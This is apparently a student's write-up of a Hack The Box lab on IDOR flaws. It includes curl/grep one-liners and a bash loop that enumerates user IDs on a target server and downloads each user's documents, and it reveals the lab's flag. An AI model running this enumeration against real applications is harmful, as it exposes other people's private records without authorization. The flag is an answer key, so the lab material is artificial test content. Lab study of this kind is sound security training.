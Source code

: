# Mass IDOR Enumeration

### Insecure Parameters

web application that hosts employee records:

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_employee_manager.jpg" alt=""><figcaption><p>Employee Manager</p></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=1</p></figcaption></figure>

we are logged in as employee who as `uid=1`, In the web app we see the documents uploaded by our user. the links of the files are.

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

If we change the uid value to `uid=2`, we will see that the links of the documents changed to&#x20;

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

This is a common mistake found in web applications suffering from IDOR vulnerabilities, as they place the parameter that controls which user documents to show under our control while having no access control system on the back-end.

### Mass Enumeration

Although we could enumerate manually and get the documents, it is not efficient. It's better to automate the task using Burp Intruder or ZAP Fuzzer to retrive the files.

To do so, we check the HTML source code of the files.

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

**pick any unique word to be able to `grep` the link of the file**. (we know each link starts with \
`<li class='pure-tree_link'>`

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"
```

**Using Regex pattern to grep**

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

> match strings between /documents and .pdf

simple bash script to get the documents with different uid

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Assessment

get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

<figure><img src="../../../.gitbook/assets/image (95) (1).png" alt=""><figcaption><p>Send request to intruder</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption><p>payload 1-20</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption><p>request number 15 has very different size of response.</p></figcaption></figure>

We found the flag where `uid=15`

<figure><img src="../../../.gitbook/assets/image (97) (1) (1).png" alt=""><figcaption><p>HTB{4ll_f1l35_4r3_m1n3}</p></figcaption></figure>

